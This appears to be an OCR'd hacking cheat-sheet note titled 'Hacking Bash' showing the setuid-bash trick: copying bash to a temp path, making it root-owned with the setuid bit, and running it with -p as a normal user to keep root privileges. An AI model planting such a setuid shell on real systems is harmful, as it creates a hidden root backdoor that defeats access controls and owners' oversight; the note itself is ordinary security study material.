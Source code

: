 # *Hacking* Bash
#hacking
Setuid Bash

cp _bin_bash _tmp_foobash
chown root:root _tmp_foobash
chmod 4755 _tmp_foobash
_tmp_foobash -p (as user)
